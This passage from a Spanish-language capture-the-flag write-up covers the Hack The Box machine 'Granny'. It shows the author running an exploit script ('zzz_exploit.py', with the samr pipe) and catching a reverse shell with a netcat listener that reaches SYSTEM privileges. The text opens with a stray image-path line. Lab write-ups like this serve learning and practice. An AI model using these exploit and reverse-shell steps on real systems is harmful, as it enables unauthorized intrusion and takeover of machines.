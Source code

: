 ```console
intrusionz3r0@kali:~$ sudo python zzz_exploit.py 127.0.0.1 samr
```
![](https://lh3.googleusercontent.com/DtxayKbmRTfv8UGEcIf5oSJeusynQ9J50Q4xZlz2ngt8sX1KiZXDk1o0t8XhMCfq637YLQpMmB6HQVTSRXCTAFogdAafQ7HRhP2PNWldzGnNK-xwU41pgUdi-GvMV7DuUuioC058)

# Shell como administrador.

```console
rlwrap nc -lvp 1234
listening on [any] 1234 ...
connect to [10.10.14.2] from granny.htb [10.10.10.15] 1040
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\system32>whoami
whoami
nt authority\system

C:\WINDOWS\system32>
```

**¡¡Somos Administradores!!**

![enter image description here](https://i2.wp.com/media0.giphy.com/media/mQG644PY8O7rG/giphy.gif)


Espero te haya gustado, recuerda seguirme en mis redes sociales para estar al pendiente de todo mi contenido.

#### **¡Muchas Gracias!**
